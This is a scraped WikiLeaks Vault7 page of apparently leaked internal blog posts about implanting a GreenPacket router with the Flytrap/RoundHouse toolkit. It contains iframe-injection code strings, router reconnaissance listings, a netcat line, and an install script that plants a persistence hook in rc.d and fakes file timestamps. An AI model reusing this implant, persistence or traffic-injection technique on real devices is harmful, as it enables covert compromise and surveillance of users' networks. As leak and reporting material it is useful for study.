

Vault7: CIA Hacking Tools Revealed
Navigation: » Directory
Owner: User #20873326
GreenPacket
| Pages | Date | User |
|---|---|---|
Attachments:
{kind=link}
Blog posts:
-
[User #20873326]: Source Navigator
Put the source code for Source Navigator in our stash repository. SNavigator can be used to analyze the source code to determine where to put our decoding plugs.
You can find the tarball here.
-User #71449
-
[User #20873326]: Creating Debug version
To create a debug version of RoundHouse:
- Edit Config/flytrap.config
- Modify
export CONFIG_DEBUG_VERSION=n
to say
export CONFIG_DEBUG_VERSION=y
- ./build g
-
[User #20873326]: Potential decode points
Documenting my attempt to locate where to add our fff decoder by analyzing the gf kernel module....
- Flytrap/Kernel/generic_filter/httputil.c
- utils to parse and handle http traffic
/G1.1/Flytrap$ grep -ri iframe . | grep -i inject
./Common/libft/shared_enums.h: IFRAME_INJECT_REDIRECT= 3,
./Kernel/generic_filter/redirectutil.h:// This function was added temporarily in an attempt to get the inject iframe
./Kernel/generic_filter/redirectutil.c:// Iframe inject related strings
./Kernel/generic_filter/redirectutil.c://int handleIFrameInjectAction(struct sk_buff **pskb,
./Kernel/generic_filter/redirectutil.c: // Make sure this packet is large enough to inject the iframe
./Kernel/generic_filter/redirectutil.c: TRACE_LEVEL( 2,("injectFrameFromReply: length of Iframe = %d\n", iframeLen));
./Kernel/generic_filter/redirectutil.c: TRACE(("injectFrameFromReply: error allocating buffer for iframe\n"));
./Kernel/generic_filter/redirectutil.c: // OK to inject the iframe into the current skb
./Kernel/generic_filter/redirectutil.c:// This function was added temporarily in an attempt to get the inject iframe
./Kernel/generic_filter/redirectutil.c:int handleIFrameInjectAction(struct sk_buff **pskb,
./Kernel/generic_filter/redirectutil.c: TRACE(("handleIFrameInjectAction: error allocating buffer for iframe\n"));
./Kernel/generic_filter/redirectutil.c: TRACE(("handleIFrameInjectAction: created iframe %s\n", iframeBuffer));
./Kernel/generic_filter/redirectutil.c: injectPacket(*pskb, iframeBuffer, tinfo);
./Kernel/generic_filter/redirectutil.c: TRACE(("handleIFrameInjectAction: CLG data packet length = %d\n", (*pskb)->len));
./Kernel/generic_filter/redirectutil.c: TRACE(("handleIFrameInjectAction: data packet: \n"));
./Kernel/generic_filter/redirectutil.c: if ( packetIsRedirectable(pskb, trafficDirection, redirectType == IFRAME_INJECT_REDIRECT ? 0 : 1) )
./Kernel/generic_filter/redirectutil.c: // just perform DOUBLE_IFRAME_REDIRECT in lui FRAME_INJECT_REDIRECT
./Kernel/generic_filter/redirectutil.c: if ( redirectType == DOUBLE_IFRAME_REDIRECT || redirectType == IFRAME_INJECT_REDIRECT)
./Apps/MissionManager/MissionManager.c: // vxworks has no easy way of handling an iframe inject, so change the redirect type to
./Apps/MissionManager/MissionManager.c: // double iframe (iframe inject is deprecated anyway)
./Apps/MissionManager/MissionManager.c: if ( brc->redirectType == IFRAME_INJECT_REDIRECT )Looking at redirectutil.c, it appears that handleIFrameInjectAction is not compiled:
#if 0
//#if defined(__IS_LINUX__)
int handleIFrameInjectAction(struct sk_buff **pskb,
struct TargetInfo *tinfo,
char* redirectURL)But I found the following strings defined:
// Double iframe related strings
// TBD: prepend a valid HTTPHypertext Transfer Protocol response code to httpMisdirectMsg1. e.g. "HTTP/1.0 200 OK"
const char *httpMisdirectMsg1 = "\r\n\r\n<html><body style=\"overflow-y:hidden;margin:0px;\"><iframe src=\"";
const char *httpMisdirectMsg2 = "\" frameborder=\"0\" style=\"width:100%;height:100%;\"></iframe><iframe src=\"";
const char *httpMisdirectMsg3 = "\" style=\"visibility:hidden;display:none;\"></iframe></body></html>";These are used in this function:
/**
* See doc in *.h file
*/
int misdirectPacketDI(struct sk_buff *skb, char *url, struct sk_buff *request)This function is called from:
/**
* See doc in *.h file.
*/
void handleRedirect(struct sk_buff **pskb,
enum TrafficDirection trafficDirection,
struct TargetInfo* tinfo,
enum RedirectType redirectType,
char* redirectURL)This is called from hkutil.c:
unsigned int handlePacketAction(unsigned int hook,
struct sk_buff **pskb,
const struct net_device *indev,
const struct net_device *outdev,
enum TrafficDirection trafficDirection,
struct TargetInfo *tinfo)And that is called from gen_hash_hook.c:
/**
* The "main" function for the GenericFilter. It performs packet filtering, and then
* searches packet data for targets and updates the pollTargetList. The MissionManager
* then accesses this pollTargetList through the setsockopt->mm_ctl mechanism.
*/
static unsigned int
GenericFilter(unsigned int hook,
struct sk_buff **pskb,
const struct net_device *indev,
const struct net_device *outdev,
enum TrafficDirection trafficDirection)
This looks promising. Found in redirectutil.c
Instead of looking for GET, we would look for '[Yh', which is 'GET' encoded by FFF.
/**
* @param buf is the buffer of data following the TCPTransport Control Protocol header* @param buflen if the buffer length of data following the TCPTransport Control Protocol header* @returns 1 if the packet appears to be a redirect-friendly request
*/
char isRedirectableGetRequest(unsigned char *buf, unsigned int buflen)
{// SO: this should really be much larger than 6 (it has to be a valid HTTPHypertext Transfer Protocol request, i.e. GET / \r\n\r\n)if ( buflen >= 6 ) // long enough for "GET / "
{if ( buf[0] == 'G' && buf[1] == 'E' && buf[2] == 'T' && buf[3] == 0x20 )
{// starts with "GET "


- Flytrap/Kernel/generic_filter/httputil.c
-
[User #20873326]: Accessing Foxtrot VMs
User #?@ubuntu:~$ ssh -X User #?@foxtrot
User #?@foxtrot's password:
Last login: Wed Mar 12 09:41:31 2014 from 10.3.2.97
[User #?@foxtrot ~]$ sudo su -
[sudo] password for User #?:
[root@foxtrot ~]# xauth merge ~User #?/.Xauthority
[root@foxtrot ~]# virt-manager & -
[User #20873326]: FFF proxy on virtual servers
I have a fff proxy set up on two virtual machines. The client is at 10.6.5.95. The server is at 10.6.5.96.
To configure your proxy, go to Preferences/Network/Settings and use 10.6.5.95:12345 as the http proxy. Only some websites work through this. Confluence will NOT.
-User #71450
-
[User #20873326]: Kernel modules installed on green packet
Module Size Used by Tainted: P
gf 64740 0
ovdsp 264892 2
ortp 77740 1 ovdsp
acodec 187136 1 ovdsp
foip 91320 1 ovdsp
fxs3 92608 2
slic3 132916 1 fxs3
dsp 168340 1 fxs3
drc 6856 1 fxs3
lec 68912 1 fxs3
pcm 9676 6 ovdsp,ortp,fxs3,dsp,drc,lec
musbhdrc 30352 0
mt71x9 1576 1 musbhdrc
pause 1552 1 mt71x9
rtnet3070ap 16230 0
rt3070ap 499292 1 rtnet3070ap
rtutil3070ap 10720 2 rtnet3070ap,rt3070ap
nf_nat_sip 4960 0
nf_conntrack_sip 13964 1 nf_nat_sip
nf_nat_rtsp 3056 0
nf_conntrack_rtsp 4136 1 nf_nat_rtsp
nf_nat_pptp 1536 0
nf_nat_proto_gre 770 1 nf_nat_pptp
nf_conntrack_pptp 3088 1 nf_nat_pptp
nf_conntrack_proto_gre 2176 1 nf_conntrack_pptp
nf_nat_h323 4384 0
nf_conntrack_h323 33184 1 nf_nat_h323
nf_nat_ftp 1248 0
nf_conntrack_ftp 4928 1 nf_nat_ftp
xt_state 832 2
ipt_addrtype 1248 0
xt_dscp 1280 0
xt_string 800 0
xt_owner 1632 0
xt_multiport 1920 5
xt_MARK 1184 1
xt_mark 896 0
xt_iprange 1664 0
xt_hashlimit 6736 0
xt_conntrack 2720 0
xt_connmark 1152 0
ebt_ip 1312 1
ebt_arp 1568 1
ebtable_broute 672 1
ebtable_nat 864 0
ebtable_filter 832 0
ebtables 16480 5 ebt_ip,ebt_arp,ebtable_broute,ebtable_nat,ebtable_filter
ledbutton 12028 2
gpio 3684 2 slic3,ledbutton
star_ether 27696 0
wimax 41100 0
cs_common 14768 1 wimax
log 16652 15 ovdsp,ortp,fxs3,slic3,dsp,lec,wimax
ksocket 3556 3 ovdsp,ortp,log
syss 13540 9 ovdsp,ortp,acodec,fxs3,dsp,lec,pcm,ledbutton,gpio
mtdccif 4660 1
vth 4324 0
fastpath 19572 3 star_ether,wimax,vth
ccif 3640 6 slic3,pause,ledbutton,star_ether,mtdccif,vth -
[User #20873326]: process listing on green packet
PIDProcess ID Uid VSZ Stat Command
1 root 988 SWSoftware init
2 root SW< [kthreadd]
3 root SW< [posixcputmr/0]
4 root SW< [sirq-high/0]
5 root SW< [sirq-timer/0]
6 root SW< [sirq-net-tx/0]
7 root SW< [sirq-net-rx/0]
8 root SW< [sirq-block/0]
9 root SW< [sirq-tasklet/0]
10 root SW< [sirq-sched/0]
11 root SW< [sirq-rcu/0]
12 root SW< [desched/0]
13 root SW< [events/0]
14 root SW< [khelper]
40 root SW< [kblockd/0]
46 root SW< [khubd]
67 root SWSoftware [pdflush]
68 root SWSoftware [pdflush]
69 root SW< [kswapd0]
70 root SW< [aio/0]
128 root SW< [kondemand/0]
161 root 604 SWSoftware /sbin/watchdog start on 31 5 61666666
164 root 600 SWSoftware /sbin/watchdog start on 31 5 61666666
216 root SWN [jffs2_gcd_mtd1]
281 root SW< [log_udp_WLOG]
304 root 2332 SWSoftware /sbin/sncfgd
306 root 2332 SWSoftware /sbin/sncfgd
307 root 2332 SWSoftware /sbin/sncfgd
360 root 2120 SWSoftware /sbin/wmxd
363 root 1940 SWSoftware wmm
364 root SW< [log_udp_VOIP]
365 root 1940 SWSoftware wmm
366 root 1940 SWSoftware wmm
370 root 2120 SWSoftware /sbin/wmxd
371 root 2120 SWSoftware /sbin/wmxd
785 root 984 SWSoftware /sbin/syslogd -s 64 -b 1
787 root 984 SWSoftware /sbin/klogd
795 root 984 SWSoftware /usr/sbin/telnetd -p 23
834 root 820 SWSoftware dropbear -p 22
845 root 772 SWSoftware lighttpd -f /etc/conf/lighttpd.conf
877 root 2704 SWSoftware /bin/mini_httpd.elf -C /etc/conf/mini_httpsd.conf
906 root 524 SWSoftware /usr/sbin/miniupnpd -f /etc/conf/miniupnpd/miniupnpd.
1096 root 988 SWSoftware /usr/sbin/udhcpd /etc/conf/udhcpd.conf
1131 root 1140 SWSoftware /usr/sbin/zebra -d -f /etc/conf/zebra.conf -i /var/ru
1163 root SW< [pcm]
1182 root SW< [log_tcp_FVDSP]
1198 root SW< [FXS intr]
1218 root SW< [ORTP_TASK]
1224 root SW< [VDSP_TASK ]
1230 root 2876 SWSoftware /usr/sbin/sipclient
1268 root 2876 SWSoftware /usr/sbin/sipclient
1272 root 2876 SWSoftware /usr/sbin/sipclient
1275 root 2876 SWSoftware /usr/sbin/sipclient
1277 root 2876 SWSoftware /usr/sbin/sipclient
1278 root 2876 SWSoftware /usr/sbin/sipclient
1286 root 2876 SWSoftware /usr/sbin/sipclient
1287 root 2876 SWSoftware /usr/sbin/sipclient
1289 root 2876 SWSoftware /usr/sbin/sipclient
1399 root 992 SWSoftware crond
1433 root 2172 SWSoftware /bin/apumac_logd
1435 root 2172 SWSoftware /bin/apumac_logd
1437 root 2172 SWSoftware /bin/apumac_logd
1442 root 2116 SWSoftware /bin/rcmapid -d
1443 root 2116 SWSoftware /bin/rcmapid -d
1444 root 2116 SWSoftware /bin/rcmapid -d
1584 root 984 SWSoftware /sbin/getty 115200 ttyS1
1587 root 676 SWSoftware ./mm
12137 root 876 SWSoftware dropbear -p 22
12145 root 988 SWSoftware -sh
12790 root 988 RW ps aux
12791 root 984 SWSoftware nc 10.1.1.1 8080 -
[User #20873326]: Install script
#!/bin/sh
DST=/etc/dbug
SRC=./dbug
RCD_DIR=/etc/rc.d
HOOK=$RCD_DIR/S95bw
echo "Killing running services..."
#stop the software if it is running
killall mm > /dev/null 2>&1
rmmod gf > /dev/null 2>&1
#stop the VPN, if it exists
killall pa > /dev/null 2>&1
killall openvpn > /dev/null 2>&1
rmmod ipt_pfilter > /dev/null 2>&1
rmmod tun > /dev/null 2>&1
echo "Removing old files..."
#backup rc file
if [ -e $HOOK ]; then
rm -f $HOOK
fi
#remove the old install directory and content
rm -rf $DST
echo "Installing Files from $SRC to $DST ..."
#replace with new
mkdir -p $DST
cp -R $SRC/* $DST
chmod +rx $DST/*
# create a new hook...
echo "/etc/dbug/zu bw" > $HOOK
echo "exit 0" >> $HOOK
chmod +rx $HOOK
#update timestamps
$DST/zu cpDt /sbin /etc
$DST/zu cpDt /sbin $DST
echo "Installation Successful!"
sleep 1
echo "Starting..."
$DST/startup.sh
echo "Good luck!" -
[User #20873326]: iptables
The greenpacket router is running iptables. Here's the rules:
Chain INPUT (policy ACCEPT)
target prot opt source destination
ACCEPT all -- anywhere 224.0.0.0/4
LOCAL_SVC all -- anywhere anywhere
LOCAL_SVC_LAN all -- anywhere anywhere
DDOS_WAN all -- anywhere anywhere
DDOS_LAN all -- anywhere anywhere
Chain FORWARD (policy ACCEPT)
target prot opt source destination
REJECT all -- anywhere anywhere state INVALID reject-with icmp-port-unreachable
ACCEPT all -- anywhere 224.0.0.0/4
MINIUPNPD all -- anywhere anywhere
FW all -- anywhere anywhere
DDOS_WAN all -- anywhere anywhere
DDOS_LAN all -- anywhere anywhere
PORT_TRIGGER all -- anywhere anywhere
FW_ALG all -- anywhere anywhere
CONTENTFILTER all -- anywhere anywhere
Chain OUTPUT (policy ACCEPT)
target prot opt source destination
Chain CONTENTFILTER (1 references)
target prot opt source destination
Chain DDOS_LAN (2 references)
target prot opt source destination
Chain DDOS_WAN (2 references)
target prot opt source destination
Chain FW (1 references)
target prot opt source destination
Chain FW_ALG (1 references)
target prot opt source destination
Chain ICMPFLOOD_LAN (0 references)
target prot opt source destination
Chain ICMPFLOOD_WAN (0 references)
target prot opt source destination
Chain LOCAL_SVC (1 references)
target prot opt source destination
REJECT tcp -- anywhere anywhere multiport dports 26080,5555 reject-with icmp-port-unreachable
REJECT udp -- anywhere anywhere multiport dports 53,1900,5351,67 reject-with icmp-port-unreachable
Chain LOCAL_SVC_LAN (1 references)
target prot opt source destination
Chain MINIUPNPD (1 references)
target prot opt source destination
Chain PORT_TRIGGER (1 references)
target prot opt source destination
Chain SYNFLOOD_LAN (0 references)
target prot opt source destination
Chain SYNFLOOD_WAN (0 references)
target prot opt source destination
Chain UDPFLOOD_LAN (0 references)
target prot opt source destination
Chain UDPFLOOD_WAN (0 references)
target prot opt source destination -
[User #20873326]: Network info
Looking through the PCAPPacket capture format data, this is what I've found:
FFF.php end points:
http://XXX.X.XX.XX (IR)/fff/fff.php
http://XXX.XX.XXX.XXX (CC-198-23-143-0-24[US])/sebas/fff.phpHTTP Proxy end point is:
http://XXX.X.XX.XX (IR)/php/tunnel.php
http://XX.XXX.XX.XX (CA)/php/tunnel.php
The greenpacket router is: 192.168.0.100
[User #20873326]: New version of FFF proxy
-
[User #20873326]: HTTP Proxy
I have the perl version of the HTTPHypertext Transfer Protocol proxy running on two Ubuntu virtual machines on my mac. The client is a SOCKS proxy at 10.3.2.156:1080. The server is at 10.3.2.153:80.
I've also set up an fff proxy using the example scripts from the FBI. The client is a http proxy at 10.3.2.156:12345 and the server is at 10.3.2.153:54321.
-User #71447
-
[User #20873326]: Source files
I put the source files (and PCAPPacket capture format data) in Stash. You can find it here.
-User #71448